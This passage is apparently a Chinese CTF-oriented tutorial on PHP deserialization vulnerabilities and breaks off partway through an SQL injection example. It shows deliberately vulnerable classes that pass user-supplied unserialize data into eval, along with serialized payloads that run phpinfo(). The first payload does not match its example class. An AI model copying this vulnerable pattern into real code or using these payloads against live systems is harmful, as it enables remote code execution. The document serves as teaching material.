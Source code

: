 
先搞清楚序列化之后各个字段的意义:

![](http://image.xpshuai.cn/img/image-20220119091308709.png)



![](http://image.xpshuai.cn/img/image-20220119091604297.png)



例如：

```php
<?php
class Example {
    var $var = '';
    function __destruct() {
        eval($this->var);
    }
}
unserialize($_GET['a']);
?>　
```

接下来构造序列化数据：`a=O:4:"test":1:{s:1:"b";s:10:"phpinfo();";}`

成功显示了phpinfo页面：在反序列化该数据时，自动触发了_destruct()函数,执行 eval(phpinfo()):





### CTF类似题目

https://cgctf.nuptsast.com/challenges#Web
https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=11116&highlight=writeup



```php
<?php
//test
/*
$a='xiaodi';
echo $a."<hr>";
echo serialize($a)."<hr>";
echo unserialize('s:6:"xiaodi";');
*/

/*
//代码执行

class xiaodi{
	var $xd='';
	function __destruct(){
		eval($this->xd);
	}
}
unserialize($_GET['a']);
*/
//O:1:"F":1:{s:3:"var";s:10:"phpinfo();";}
//O:6:"xiaodi":1:{s:2:"xd";s:10:"phpinfo();";}


//sql注入
/*
class sql{
	var $var='';
	function __destruct(){
		echo 'select * from admin where username='.($this->var);
```